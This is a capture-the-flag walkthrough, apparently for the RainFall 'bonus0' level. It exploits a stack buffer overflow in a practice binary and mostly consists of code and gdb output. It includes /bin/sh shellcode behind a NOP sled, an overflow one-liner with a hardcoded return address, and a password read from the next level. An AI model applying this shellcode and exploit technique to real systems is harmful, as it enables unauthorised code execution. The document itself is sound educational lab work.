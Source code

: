# Walkthrough

## Solution
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```
```
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA|���AAAAAAA��� AAAAAAAAA|���AAAAAAA���
pwd
/home/user/bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Explanation

### Execution

```
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
you
hello you
bonus0@RainFall:~$ ./bonus0
 - 
he llo
 - 
you
he llo you
```
-> wait for 2 inputs and concatenate them


### Disassembly

```
info var
data_start

info function
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

You can view the asm code [here](Ressources/assembly.asm)  

Buffer addresses:
buf = 0xbffff6f6
buf1 = 0xbffff6a8
buf2 = 0xbffff6bc


### Execution

```
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
-> the 2nd input cause a segfault - **Offset is 9**
The buffer is only 20 chars, so we only have 11 bytes available to inject a shellcode, which is not enough.

Let's save our shellcode in an env variable:  
*shellcode:* '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars
```  

The actual address of the shellcode must be known ahead of time, which can be difficult to know in a dynamically changing stack.
By creating a large array (or sled) of these NOP instructions and placing it before the shellcode, if the EIP returns to any address found in the NOP sled, the EIP will increment while executing each NOP instruction, one at a time, until it finally reaches the shellcode. This means that as long as the return address is overwritten with any address found in the NOP sled, the EIP will slide down the sled to the shellcode, which will execute properly.  

**Shellcode env:  **
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  

#### Find the Shellcode env variable address
```
$> gdb bonus0
(gdb) break main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/s *((char **)environ)
0xbffff86c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
```

the beginning of our NOP + shellcode is at address 0xbffff86c
-> we have to choose an address that contains a NOP (\x90), so that it will sled into the beginning of our shellcode and execute it

```
(gdb) x/12wx 0xbffff86c
0xbffff86c:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff87c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff88c:	0x90909090	0x90909090	0x90909090	0x90909090
```

-> let's pick 0xbffff87c

> (python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0

% 4095 + \n = 4096, to fill the buf3, \n because of the strchr(buf3, '\n')
% 'A' * 9 because the offset of the 2nd input that causes the segfault is 9
% address of the shellcode (4 bytes)
% 'A' * 7, so that we have 20 bytes for buf2 (9 + 4 + 7).


% source:
% https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x270-stackoverflow.html
% x/s *((char **)environ) to get address of env variables